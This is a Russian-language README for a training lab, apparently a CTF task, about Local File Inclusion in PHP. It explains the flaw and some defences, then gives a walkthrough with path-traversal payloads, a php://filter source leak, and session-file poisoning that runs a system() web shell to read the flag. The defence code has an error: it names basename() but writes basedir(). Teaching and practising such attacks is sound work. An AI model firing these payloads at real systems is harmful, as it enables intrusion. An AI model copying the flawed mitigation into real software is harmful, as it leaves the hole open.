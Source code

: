 ﻿**Описание уязвимости**

Данная уязвимость возникает в приложениях, если пользователь может каким-то образом взаимодействовать с API файловой системы. В большинстве случаев web-приложение использует GET или POST параметры для передачи их содержимого одной из возможной функции включения файлов, но не ограничивается ими.

Функции в разных языках, которые могут приводить к LFI:

- **PHP**: `include()` / `include\_once()` , `file\_get\_contents()`, `fopen() / file()`
- **Java**: `import`
- **.NET**: `@Html.RemotePartial()` , `include`
- **NodeJS**: `res.render()`

  Кроме того, если web-сервер собирает какую-то информацию, например в /etc/apache2/access.log(в случае apache) или /var/log/nginx/access.log(в случае с nginx), то при наличии LFI, можно выставить в качестве значения заголовка User-Agent, какой- то код(в большинстве случаев на php), и включить log файл в следующем запросе. Если web сервер, настроен на обработку php файлов из директории, в которой находятся log файлы, то код выполнится.

**Способы защиты**

В большинстве случаев, необходимо убрать у пользователей возможность взаимодействовать с файловой системой, но если этого сделать нельзя, то тогда можно попытаться использовать следующие механизмы защиты.

- В случае с включением каких-то определённых файлов, можно использовать функцию basename(), которая принимает в качестве параметра любой путь, а возвращает название файла с его расширением. Конечный код должен выглядеть так:

`include basedir($\_GET['language'])`

- Необходимо выставлять значение таких переменных, как allow\_url\_fopen или allow\_url\_include на off, так как большинство из них позволяет использовать обёртки.
- Можно использовать переменную open\_basedir, которая не позволит злоумышленнику получить доступ к файлам, находящимся вне директории, прописанной в качестве значения данной переменной.
- Делать рекурсивную проверку на наличие последовательностей типа '../' или '..\'
```php
while (strpos($param\_value, '../') !== false) {
  $param\_value = str\_replace('../', '', $param\_value); 
}
```
- Использование WAF

**Запуск приложения**

Для запуска данного приложения необходимо:

- скачать репозиторий
- зайти в директорию с файлом docker-compose.yaml
- в случае, если не нужно менять параметры, зайти из терминала в директорию с конфигурационными файлами и прописать:
```shell
docker-compose up
```
- в файле docker-compose.yaml можно поменять значение порта с 8090 на любой другой
- в файле .env можно поменять значение флага на желаемое

**Описание уязвимости**

Необходимо получить доступ к файлу /flag.txt.

В данном приложении есть возможность выбора языка, на котором отобразится текст страницы. Реализована данная возможность с помощью передачи GET параметра lang в HTTP запросе к index.php. У пользователя есть возможность обращаться только к файлу index.php.

Приложение получает и обрабатывает GET параметры, убирая при этом последовательности символов "../". В результате запроса php генерирует html страничку, на которой в объект div с классом container происходит включение содержимого файла из GET параметра с помощью функции include . Кроме того в приложении происходит отслеживание информации о пользователе:
```php
$path_to_lang_file = $_GET['lang'];

$_SESSION['language'] = $path_to_lang_file;
```
Вектор атаки:

- при обращении на index.php в качестве значения GET параметра использовать php код
- посмотреть на имя cookie в Storage с помощью инструмента разработчика
- в следующем GET запросе в качестве значения GET параметра использовать файл абсолютный путь до файла /tmp/sess\_<имя-cookie>
- при следующих запросах необходимо повторить шаги 1 и 2 снова

**Решение**

Первое, что можно сделать - это попытаться найти path traversal в GET параметре, передавая в качестве значения следующие полезные нагрузки:
```
../../../../../../../../../../../../etc/passwd

..././..././..././..././..././..././..././etc/passwd

....//....//....//....//....//....//....//....//etc/passwd

%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2Fetc%2Fpasswd

%252E%252E%252F%252E%252E%252F%252E%252E%252F%252E%252E%252F%252E%252E%252F%252E%252E%252F%252E%252E%252F%252E%252E%252F%252E%252E%252Fetc%252Fpasswd
```
В результате будет выводиться следующее:

![](./img/Aspose.Words.341f10a6-e995-4500-83c1-896da81956a4.009.jpeg)

Это может навести на мысль о том, что значение заголовка фильтруется.

Можно попытаться использовать php wrappers для получения index.php в base64:
```php
php://filter/convert.base64-encode/resource=./index.php
```
![](./img/Aspose.Words.341f10a6-e995-4500-83c1-896da81956a4.011.jpeg)

Получаем содержимое страницы в base64.

Используем любой доступный декодер и получаем следующее:

![](./img/Aspose.Words.341f10a6-e995-4500-83c1-896da81956a4.012.jpeg)

В данном файле имеется три подсказки:

- выставленное значение переменной open\_basedir(/app, /tmp - в первой директории хранятся файлы, во второй - сессии)
- комментарий о том, что сессии хранятся в директории tmp
- $\_SESSION['language'] = $path\_to\_lang\_file , где $path\_to\_lang\_file в случае обхода фильтрации будет содержать значение GET параметра.

  После этого можно сделать GET запрос с определённым значением:

  ![](./img/Aspose.Words.341f10a6-e995-4500-83c1-896da81956a4.013.jpeg)

  И проверить сохранилось ли это значение в сессии:

  ![](./img/Aspose.Words.341f10a6-e995-4500-83c1-896da81956a4.014.jpeg)

  Полезная нагрузка в данном случае будет следующая:
```http
http://localhost:8090/index.php?lang=<?php system($\_GET['cmd']);?>
http://localhost:8090/index.php?lang=/tmp/sess\_<имя-cookie>?cmd=url-encode(команда)
```
![](./img/Aspose.Words.341f10a6-e995-4500-83c1-896da81956a4.015.jpeg)

Видим содержимое корня и замечаем файлик flag.txt

![](./img/Aspose.Words.341f10a6-e995-4500-83c1-896da81956a4.016.jpeg)

Выводим содержимое файла и получаем флаг:

![](./img/Aspose.Words.341f10a6-e995-4500-83c1-896da81956a4.017.jpeg)

[ref1]: ./img/Aspose.Words.341f10a6-e995-4500-83c1-896da81956a4.006.png
